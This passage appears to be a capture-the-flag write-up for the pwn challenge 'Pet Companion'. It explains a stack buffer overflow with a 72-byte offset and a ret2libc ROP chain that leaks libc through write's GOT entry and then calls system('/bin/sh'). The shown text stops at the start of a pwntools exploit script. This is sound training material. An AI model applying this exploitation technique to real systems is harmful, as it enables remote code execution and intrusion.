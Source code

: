 ```bash
$ checksec pet_companion
[*] '/home/vulnx/Games/CTFs/Cyber Apocalypse/pwn/Pet Companion/challenge/pet_companion'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

- No canary

- No PIE

Seems good. Our buffer is 64 bytes, RBP will be an additional 8 bytes, so the total offset to RIP would be 72. So we can redirect code execution, but where to go to?

Since there is no `win` function for us, we have to rely on the good old ret2system technique ( thankfully we have the libc file )

But the remote server has ASLR enabled which means, to get the exact address of `system()` we will need a libc leak. To get a leak we can use the GOT table via the following ROP chain (gadgets from the binary since PIE is disabled):

- pop rdi ; ret

- 0x1 [ stdout file descriptor ]

- pop rsi ; pop r15 ; ret ( due to unavailability of better gadget )

- GOT['write'] (or any other GOT entry)

- junk value (goes into r15)

- PLT['write'] ( call : write(1, GOT['write'], RDX) )

- exe.sym.main ( restart the program to avoid the crash and get another BoF )

Since RDX is already a high value (can be found via inspecting it in GDB), we don't necessarily need to change it.

After we get the leak we can get libc base via:

```python
libc.address = leak - libc.sym.write
```

and send the following ROP chain for the next BoF:

- pop rdi ; ret

- address to '/bin/sh'

- system()

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pet_companion", checksec=False)
libc = ELF(exe.libc.path, checksec=False)

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
```